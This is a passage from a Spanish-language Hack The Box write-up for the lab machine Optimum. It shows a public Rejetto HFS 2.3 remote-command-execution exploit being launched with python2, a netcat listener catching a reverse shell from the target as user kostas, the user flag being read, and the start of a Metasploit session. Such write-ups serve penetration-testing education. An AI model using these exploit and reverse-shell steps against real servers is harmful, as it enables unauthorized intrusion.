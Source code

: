 * Y lanzamos el Exploit, como bien menciona hay que activarlo varias veces, en mi caso funciono a la segunda:
```bash
python2 HFS_Exploit.py 10.10.10.8 80
```

* Listo, ya estamos dentro:
```bash
nc -nvlp 443                       
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

* Justamente entramos como un usuario y en su escritorio, entonces ahí mismo está la flag del usuario:
```batch
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D
 Directory of C:\Users\kostas\Desktop
06/04/2023  07:25 ��    <DIR>          .
06/04/2023  07:25 ��    <DIR>          ..
18/03/2017  03:11 ��           760.320 hfs.exe
06/04/2023  07:24 ��                34 user.txt
               2 File(s)        760.354 bytes
               2 Dir(s)   5.673.574.400 bytes free
C:\Users\kostas\Desktop>type user.txt
type user.txt
...
```
Excelente, ahora vamos a probar la versión con **Metasploit Framework**.

<br>

<h3 id="PruebaExp2">Probando Exploit: Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)</h3>

Vamos a iniciar la herramientas **Metasploit Framework**, buscaremos los Exploits para el **servicio HFS 2.3** y usaremos el Exploit que quede para esta máquina.

Hagamoslo por pasos:

* Iniciando **Metasploit**:

```bash
msfconsole
 ______________________________________
/ it looks like you're trying to run a \                                                                                                                                                                                                   
\ module                               /                                                                                                                                                                                                   
 --------------------------------------                                                                                                                                                                                                    
 \                                                                                                                                                                                                                                         
  \                                                                                                                                                                                                                                        
```